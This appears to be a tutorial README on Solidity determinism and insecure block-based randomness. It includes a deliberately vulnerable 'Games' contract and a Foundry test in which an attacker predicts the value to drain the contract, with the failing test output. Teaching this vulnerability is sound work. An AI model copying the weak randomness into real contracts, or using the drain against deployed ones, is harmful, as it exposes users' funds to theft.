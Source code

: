 # Deterministic 
## Smart contracts are deterministic  same input = same output 
- A deterministic smart contract is a contract in which the same inputs always produce the same outputs, no matter when or where the contract is executed. Determinism is crucial in smart contracts to ensure consistency, predictability, and trust across all Ethereum nodes in the network
- Consistency Across Nodes: All Ethereum nodes running the contract reach the same result when processing the same transaction. This is vital for consensus.

![Static Badge](https://img.shields.io/badge/Randomness%20Teat%201%20-Green)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.28;

contract randomnessTest1 {

    function deterministicFunction(uint256 addNumber) public pure returns(uint256) {
        uint256 randomnessNumber;
      return randomnessNumber = addNumber*2;
    }   
}
```

 Script to deploy
 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {randomnessTest1} from "../src/randomnessTest1.sol";

contract DeployRandomnessTest1 is Script {
    randomnessTest1 public randomnesstest1;

    function setUp() public {}
    function run() public {
        vm.startBroadcast();
        randomnesstest1 = new randomnessTest1();
        vm.stopBroadcast();
    }
}
```

 Test Foundry
 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.28;

import {Test, console} from "forge-std/Test.sol";
import {randomnessTest1} from "../src/randomnessTest1.sol";

contract CounterTest is Test {
    randomnessTest1 public randomnesstest1;
    function setUp() public {
         randomnesstest1 = new randomnessTest1();
    }
    // Test deterministicFunction with a specific input
    function testDeterministicFunction() public view {
        uint256 addNumber = 5;
        uint256 expectedResult = 10;
        assertEq(randomnesstest1.deterministicFunction(addNumber),expectedResult);
    }
    // Test deterministicFunction with a large input
    function testDeterministicFunctionLargeInput() public view {
        uint256 addNumber = type(uint256).max/2;
        uint256 expectedResult = addNumber*2;
        assertEq(randomnesstest1.deterministicFunction(addNumber),expectedResult);        
}
}
```

![Static Badge](https://img.shields.io/badge/Randomness%20Test%202%20-Green)

- This smart contract is called Games and it implements a simple game where a user can guess a "random" number.
 If their guess matches the number generated by the contract, they win the entire contract balance. 
 - A "random" number is generated using:
block.timestamp: The timestamp of the current block.
block.number: The current block number.
block.difficulty: The mining difficulty of the current block.

- These values are combined using the keccak256 hash function, and the result is converted to a uint256.
Problem
-  This approach is not secure for randomness because miners or attackers can predict or manipulate these values.

``` solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.28;

contract Games {
    constructor() payable {}

    function play(uint256 gues) public {
        // Calculate a pseudo-random number
        uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.number, block.difficulty)));

        // If the guess is correct, transfer all the contract's balance to the sender
        if (random == gues) {
            payable(msg.sender).transfer(address(this).balance);
        }
    }
}

```
- Test With Foundry FrameWork
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.28;

import {Test, console} from "forge-std/Test.sol";
import {Games} from "../src/Games.sol";

contract CounterTest is Test {
    Games public games;

    address public attacker = address(0x2);

    function setUp() public {
       // Deploy the Games contract with an initial balance 10 ether
        games = new Games{value: 10 ether}();
         console.log("games address: %s", address(games));
    }
    function testPlay() public {
        vm.startPrank(attacker);
       // Ensure the attacker has some Ether to call the play function
        vm.deal(attacker,1 ether);
        // Predict the random value
        uint256 guess = uint256(keccak256(abi.encodePacked(block.timestamp, block.number, block.difficulty)));
        // Call the play function with the predicted value
        games.play(guess);
        // Check if the attacker successfully drained the funds
        assertEq( attacker.balance, 10 ether);
    }   
}
```


- run command ``` forge compile ``` or ``` forge build  ``` to compile contract
- run command ``` forge create <contract path> --rpc-url <rpc url > -- private-key <private key > --value 10ether --broadcast``` to deploy
- run command ``` forge test -vvv ```  test fail WHY?
  
```solidity
Ran 1 test for test/Games.t.sol:CounterTest
[FAIL: assertion failed: 11000000000000000000 != 10000000000000000000] testPlay() (gas: 18818)
Logs:
  games address: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f

Traces:
  [18818] CounterTest::testPlay()
    ├─ [0] VM::startPrank(SHA-256: [0x0000000000000000000000000000000000000002])
    │   └─ ← [Return] 
    ├─ [0] VM::deal(SHA-256: [0x0000000000000000000000000000000000000002], 1000000000000000000 [1e18])
    │   └─ ← [Return] 
    ├─ [7368] Games::play(96758112507123037457144765246511711555223209187725868989644329763805255684767 [9.675e76])
    │   ├─ [60] PRECOMPILES::sha256{value: 10000000000000000000}(0x)
    │   │   └─ ← [Return] 0xe3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(11000000000000000000 [1.1e19], 10000000000000000000 [1e19]) [staticcall]
    │   └─ ← [Revert] assertion failed: 11000000000000000000 != 10000000000000000000
    └─ ← [Revert] assertion failed: 11000000000000000000 != 10000000000000000000

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 44.34ms (242.05µs CPU time)

Ran 1 test suite in 80.22ms (44.34ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/Games.t.sol:CounterTest
[FAIL: assertion failed: 11000000000000000000 != 10000000000000000000] testPlay() (gas: 18818)

Encountered a total of 1 failing tests, 0 tests succeeded
```



